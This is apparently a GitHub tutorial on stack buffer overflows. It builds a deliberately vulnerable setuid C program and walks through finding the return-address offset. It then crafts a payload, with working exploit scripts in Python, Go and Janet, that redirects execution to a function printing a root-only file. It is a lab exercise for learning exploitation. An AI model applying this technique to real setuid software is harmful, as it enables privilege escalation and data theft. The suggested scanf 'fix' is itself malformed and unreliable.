

# Return Oriented Programming

## Introduction

When we try to access (read from or write to) a memory address that isn't
actually mapped to our process, the kernel sends a SIGSEGV (Segmentation
Fault), (usually) killing our process.

```c
int main() {
    // create a pointer to the address 0 and dereference it
    *((int*)0) = 0;
}
```

Note that `dmesg` helpfully tells us the position of the instruction pointer
`ip` (henceforth $IP) where the segfault occurred.

```sh
gcc segv.c

./a.out
# Segmentation fault

sudo dmesg
# [ 2342.736665] a.out[758]: segfault at 7f4b9bfea620 ip 00007f4b9bfea620 sp 00007ffdcf0a0778 error 15 in ld-2.31.so[7f4b9bfea000+1000]
```

See here: `segfault at 7f4b9bfea620`.

## The Premise

There is a file `secret.txt` but you cannot read it 😈!

```sh
ls -l
# -rwsr-xr-x 1 root     root     19288 Jun 21 11:33 a.out
# -rw------- 1 root     root        42 Jun 21 10:53 secret.txt
```

However, there is also a `setuid` binary that will spill the file contents,
provided you know a secret passphrase.

```sh
./a.out
# What is the secret phrase?
# red apples
# The secret phrase is not: red apples
```

<details>
<summary>Setup</summary>

```sh
clang exploitable.c
sudo chown root:root a.out
sudo chmod 4755 a.out
echo "NOBODY EXPECTS THE SPANISH INQUISITION!!!" > secret.txt
sudo chown root:root secret.txt
sudo chmod 600 secret.txt
```
</details>

## Buffer Overflow

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <assert.h>
#include <errno.h>
#include <unistd.h>
#include <sys/types.h>

#define SECRET_PHRASE "bed bananas"
#define SECRET_FILE "./secret.txt"

void win() {
    FILE *fd = fopen(SECRET_FILE, "r");
    if (fd == 0) {
        perror(SECRET_FILE);
        return;
    }
    fseek(fd, 0, SEEK_END);
    long sz = ftell(fd);
    fseek(fd, 0, SEEK_SET);
    char *buf = malloc(sz+1);
    fread(buf, sz, 1, fd);
    buf[sz] = 0;
    printf("%s\n", buf);
    return;
}

int main(int argc, char **argv) {
    char pass[12] = {0};
    printf("What is the secret phrase?\n");
    // scanf("11%[^\n]", pass);
    scanf("%[^\n]", pass);
    if (0 == (strncmp(SECRET_PHRASE, pass, sizeof(SECRET_PHRASE)))) {
        win();
    } else {
        printf("The secret phrase is not: %s\n", pass);
    }
    return 0;
}
```

The above code is susceptible to a buffer overflow attack.
`scanf` reads the entire input line into `pass` buffer, input longer than 12
(ASCII) characters will overwrite memory further down the stack
(or memory in higher addresses, since the stack in x86 grows downwards, from
high to low memory addresses).

```c
scanf("%[^\n]", pass);
```

A more correct version would be:

```c
scanf("11%[^\n]", pass);
```

## How the Stack Works

Every function has its own space on the stack where it can store local
variables, called the function's *stack frame*.
$RBP is the base pointer, pointing to the start of the current stack frame,
whereas $RSP -- the stack pointer -- points to the *top* of the stack.
To access a variable, we can use an offset from either the $RBP or the $RSP.

Before we can store something onto the stack we need to make space for it, by
advancing the the top of the stack $RSP.
The stack grows downwards, from high memory addresses into lower addresses,
meaning that the top of the stack is lower than $RBP.
To reserve space on the stack, we subtract from $RSP (not add!).

Every function has to set up its frame by itself (prologue) and must restore
the previous function's stack frame before returning (epilogue).

When a function is called, the address of where execution has to continue
after the called function finished executing (the return address) is pushed
onto the stack.

<details>

<summary>A more detailed explanation with graphics (and terrible handwriting)</summary>



</details>

<details>

<summary>Disassembly of the Main Function</summary>

## Disassembly of the Main Function

Compiled using Clang Version 10.0.0.

```sh
clang --version
# clang version 10.0.0-4ubuntu1
```

```
; *** Output taken from objdump and cleaned up ***
main:
  ; Prologue:
  ; Setup the stack frame:
  ;   - save the previous function's base pointer on the stack
  ;   - set our base to the top of the previous function's frame
  push   rbp
  mov    rbp,rsp

  ; make space for the input buffer, note that the compiler (clang) decided to
  ; allocate 48 bytes instead of the 12 bytes we coded.
  ; Some of those bytes are also for argc and argv, Clang cleverly allocates
  ; all locals at once.
  sub    rsp,0x30

  ; apparently a more efficient way to say `mov eax, 0`
  xor    eax,eax

  ; I'm guessing EDI and RSI are argc and argv respectively.
  mov    DWORD PTR [rbp-0x4],0x0
  mov    DWORD PTR [rbp-0x8],edi
  mov    QWORD PTR [rbp-0x10],rsi

  ; Our input buffer is located on the stack at offset 0x1C from the base pointer.
  ; The previous value on the stack is at 0x10, calculating 0x1C - 0x10 gives
  ; us the correct buffer size of 12 bytes!
  lea    rcx,[rbp-0x1c]

  ; calling memset to zero the buffer
  mov    rdi,rcx                   ; buffer address
  mov    esi,eax                   ; the number 0
  mov    edx,0xc                   ; size of the buffer 12
  call   401060 <memset@plt>

  ; printf call: "What is the secret message?\n"
  movabs rdi,0x402013              ; adddress of string to print,
                                   ; `(gdb) x/s 0x402013` tells the string contents
  mov    al,0x0
  call   401050 <printf@plt>

  ; scanf call
  lea    rsi,[rbp-0x1c]            ; buffer to scan into
  movabs rdi,0x40202f              ; `(gdb) x/s 0x40202f` = "%[^\n]"
  mov    DWORD PTR [rbp-0x20],eax  ; godbolt remarks this with "4-byte spill"
  mov    al,0x0
  call   4010c0 <__isoc99_scanf@plt>

  ; compare the input against the passphrase
  lea    rsi,[rbp-0x1c]            ; our buffer once again
  movabs rdi,0x402035              ; "bed bananas" the secret passphrase
  mov    edx,0xc                   ; buffer size 12
  mov    DWORD PTR [rbp-0x24],eax  ; godbolt remarks this with "4-byte spill"
  call   401030 <strncmp@plt>

  ; compare strcmp result against 0
  xor    r8d,r8d
  c0                cmp    r8d,eax

  jne    401315 <main+0x85>        ; incorrect passphrase: jump to incorrect

  call   4011c0 <win>              ; correct passphrase: call win,
  jmp    40132a <main+0x9a>        ;   then go to exit

incorrect:
  lea    rsi,[rbp-0x1c]            ; buffer
  movabs rdi,0x402041              ; "The secret phrase is not: %s\n"
  mov    al,0x0
  call   401050 <printf@plt>

exit:
  ; set exit code (0 - Success)
  xor    eax,eax

  ; Epilogue:
  ;   - Reset the stack pointer to its initial position
  ;   - Restore the old RBP value back into RBP
  add    rsp,0x30
  pop    rbp

  ; Read return address from stack and continue executing there.
  ret
```

The two register spills save the value of $EAX onto the stack, presumably
because the register will be overwritten by the subsequent function calls
(and there are no other registers available).
However, we never read those values back.
Compiling with `-O3` removes much of the unnecessary instructions, as well as
not needed variables like `argc` and `argv`.

</details>

## Stack Canaries

GCC with its default options puts some sort of security check in place.

```sh
gcc exploitable.c
printf 'A%.0s' {1..40} | ./a.out

# What is the secret phrase?
# The secret phrase is not: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# *** stack smashing detected ***: terminated
# Aborted

sudo dmesg
# [ 3491.530583] a.out[954]: segfault at 7f0041414141 ip 00007f0041414141 sp 00007fffcc4bdc20 error 14 in libc-2.31.so[7f8bfc9c3000+22000]
```

So let's compile with `clang` instead.

> Another options would have been to compile using `-fno-stack-protector`.

## Locating the Return Address

The return address is located somewhere at the bottom of the stack frame.
When returning, the return address is loaded into the $IP register and
execution continues at that address.

ASCII 'A' is hex 0x41:

```sh
clang exploitable.c
printf 'A%.0s' {1..40} | ./a.out

# What is the secret phrase?
# The secret phrase is not: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Segmentation fault

sudo dmesg
# [ 3926.193998] a.out[954]: segfault at 7f0041414141 ip 00007f0041414141 sp 00007fffcc4bdc20 error 14 in libc-2.31.so[7f8bfc9c3000+22000]
```

Pay special attention to the line `segfault at 7f0041414141`.

We see $IP filled up from the right with four 'A's.
Considering that we input 40 'A's and four endet up in $IP, the return address
on the stack must lie 40 - 4 = 36 bytes after the input buffer starts.

By playing around with the amount of 'A's we send, we can figure out that the
return address begins after 36 bytes (and ends after the 42nd byte).

```sh
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEFG | ./a.out
# [ 8286.214298] a.out[1977]: segfault at 474645444342 ip 0000474645444342 sp 00007ffcf9383bd0 error 14 in libc-2.31.so[7f03ab870000+22000]
```

Note the 0x47 (G), 0x46 (F), 0x45 (E), ... -- our payload will end up in
reverse order!

> Another way is to generate a random string with no repeating patterns.
> Then just match the pattern from the $IP against your input string to find
> the exact position.

## Address of the Win Function

To make it easy for us we assume that the binary executable is not "stripped",
meaning that information about function names is still intact.

This is the function we would like to "return" to:

```sh
objdump -d -M intel_syntax a.out

# ... SNIP ...
#
# 00000000004011c0 <win>:
#   4011c0:       55                      push   rbp
#   4011c1:       48 89 e5                mov    rbp,rsp
#   4011c4:       48 83 ec 30             sub    rsp,0x30
#   4011c8:       48 bf 04 20 40 00 00    movabs rdi,0x402004
#   4011cf:       00 00 00
#   4011d2:       48 be 11 20 40 00 00    movabs rsi,0x402011
#   4011d9:       00 00 00
#   4011dc:       e8 bf fe ff ff          call   4010a0 <fopen@plt>
#
# ... SNIP ...
```

We note its address as `0x00000000004011c0`.

## Crafting a Payload

Using Python we can easily craft a malicious input string...

```sh
python2 -c 'print("A" * 36 + "\xc0\x11\x40\x00\x00\x00\x00\x00")'
```

...where `c011400000000000` is the address of the `win` function.

Note that we had to convert the endianness to match that of our CPU.

We use Python 2 because Python 3 makes it very hard to output an ASCII string
containing invalid bytes.

## Ready, Set, Exploit!

```sh
python2 -c 'print("A" * 36 + "\xc0\x11\x40\x00\x00\x00\x00\x00")' | ./a.out
# What is the secret phrase?
# The secret phrase is not: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
# NOBODY EXPECTS THE SPANISH INQUISITION!!!
# 
# Segmentation fault
```

As you can see from the output, the `win` function was run, between `main`
returning and a segfault.

## Writing an Exploit

### Python 3

```python
import subprocess

payload = b'A' * 36 + b'\xc0\x11\x40\x00\x00\x00\x00\x00'
process = subprocess.Popen('./a.out', stdin=subprocess.PIPE)
process.communicate(input=payload)
```

Or if you're scared of snakes, try Go:

### Go

```go
package main

import (
	"fmt"
	"io"
	"os"
	"os/exec"
)

func panicIf(err error) {
	if err != nil {
		panic(err)
	}
}

var payload []byte = []byte("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\x11\x40\x00\x00\x00\x00\x00")

func main() {
	fmt.Println(string(payload))

	cmd := exec.Command("./a.out")
	stdin, err := cmd.StdinPipe()
	panicIf(err)
	// redirect child in/out to parent in/out
	cmd.Stdout = os.Stdout
	cmd.Stderr = os.Stderr

	err = cmd.Start()
	panicIf(err)

	io.WriteString(stdin, string(payload))
	stdin.Close() // close stdin to signal end of input

	err = cmd.Wait()
	panicIf(err)
}
```

Or perhaps something more Lispy?

### Janet

```janet
#!/usr/bin/env janet
(use sh)
(def input "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0\x11\x40\x00\x00\x00\x00\x00")
($ ./a.out < ,input)
```

## More Challenges

- I solved the first challenge from the ROPEmporium [here](ret2win.md).
- ROPEmporium [split](split.md).
- ROPEmporium [callme](callme.md).
